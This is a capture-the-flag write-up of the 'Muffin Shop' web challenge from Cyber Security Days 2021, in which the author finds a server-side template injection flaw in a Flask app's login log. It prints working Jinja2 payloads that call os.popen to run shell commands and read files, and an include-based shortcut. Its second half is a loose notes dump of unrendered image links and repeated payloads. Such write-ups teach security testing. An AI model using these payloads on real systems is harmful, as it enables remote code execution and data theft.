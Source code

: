 ```yaml
---
title: CSD 2021 Muffin Shop Write-Up
author: Andreas Wienes
date: 2021-11-21 12:11:26 +0100
categories: [ctf][writeup]
tags: 
  - "infosec"
  - "ctf"
  - "writeup"
toc: true
---
```


In November 2021 I was part of a small team ('Tychologen') that took part in the Cyber Security Days 2021 thankfully organized by the Ostschweizer Fachhochschule.

This is a short write-up for one of the the web security challenges called "Muffin Shop", which was rated as medium difficulty.

## Introduction

![muffin](/assets/img/muffin.png)

> I'll take you to the muffin shop (düdü düdü) I'll let you inject your little ..... payload... i guess. Anyway. Start the container and have a go at this little challenge. 

>Goal:
> Retrieve the flag from the template folder in a file creatively called 'flag.html'. 
Good luck!

This is what we see when we visit the web application for the first time:

![muffin-welcome](/assets/img/muffin-welcome.png)

Let's have a look into the source code of that page.

![muffin-source](/assets/img/muffin-source.png)

But there is nothing of interest in here.

So I started gobuster and discovered other endpoints.

![muffin-gobuster](/assets/img/muffin-gobuster.png)

But 'login' is the only functionality that is implemented in this version of the muffin shop.

Thankfully the CTF organzisers provided the source code of the application, so I could save a lot of time and jump directly into analyzing it.

From the source code we know that only three functions are actually working:

**login**

![muffin-source-login](/assets/img/muffin-source-login.png)

But the login function doesn't do anything, but writing the login attempts into a log file. So it's not possible to log into a user's account and attacks like SQL injection won't work here.

**logs**

![muffin-source-logs](/assets/img/muffin-source-logs.png)

This method will render a template called 'logs.html'.

Let's have a look on it:

![muffin-logs](/assets/img/muffin-logs.png)

As assumed our login attempts are logged and we are able to see all of them here. 

**rotate_logs**

![muffin-source-rotate-logs](/assets/img/muffin-source-rotate-logs.png)

We can use this methode to clean up the log file.

_It seems like this challenge is litteraly screaming for some kind of log poisoning._

From the source code we know that the app is using the Flask library. After a short visit of one my favorite websites [book.hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) I tried a Server Side Template Injection (SSTI) and entered ```{{7 * 7}}``` as the username.

![muffin-ssti-input](/assets/img/muffin-ssti-input.png)

And as assumed my input is evaluated by the backend, as we can see the number 49 in the log-file.

![muffin-ssti-poc](/assets/img/muffin-ssti-poc.png)

_So what's next?_

[book.hacktricks.xzy](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python) also contains some examples on how to exploit this vulnerability to achieve Remote Code Execution (RCE).

I've used 
```PYTHON
{{config.__class__.__init__.__globals__['os'].popen('la -al').read()}}
```
to list the content of the current direcory.

Then I've used
```PYTHON
{{config.__class__.__init__.__globals__['os'].popen('find / -name \\*flag\\* > find.txt && cat find.txt').read()}}
```
as input for the username to search for all files that contain *flag* in it's name and afterwards cat the results out.



![[Pasted image 20211120224417.png]]

![[Pasted image 20211120224430.png]]

![[Pasted image 20211120224447.png]]

![[Pasted image 20211120224621.png]]

![[Pasted image 20211120224550.png]]

![[Pasted image 20211120224657.png]]

![[Pasted image 20211120224747.png]]

{{config.__class__.__init__.__globals__['os'].popen('la -al').read()}}



![[Pasted image 20211120225143.png]]

![[Pasted image 20211120225311.png]]

{{config.__class__.__init__.__globals__['os'].popen('find / -name \\*flag\\* > find.txt && cat find.txt').read()}}

![[Pasted image 20211120225838.png]]

![[Pasted image 20211120225856.png]]

{{config.__class__.__init__.__globals__['os'].popen('cat /app/templates/flag.html').read()}}

![[Pasted image 20211120225942.png]]

![[Pasted image 20211120230025.png]]

![[Pasted image 20211120230040.png]]

---

# Shorter Way

![[Pasted image 20211120230740.png]]

User lexiea

{% set logged_in = true %}{% include 'flag.html' %}

![[Pasted image 20211120230510.png]]

![[Pasted image 20211120230548.png]]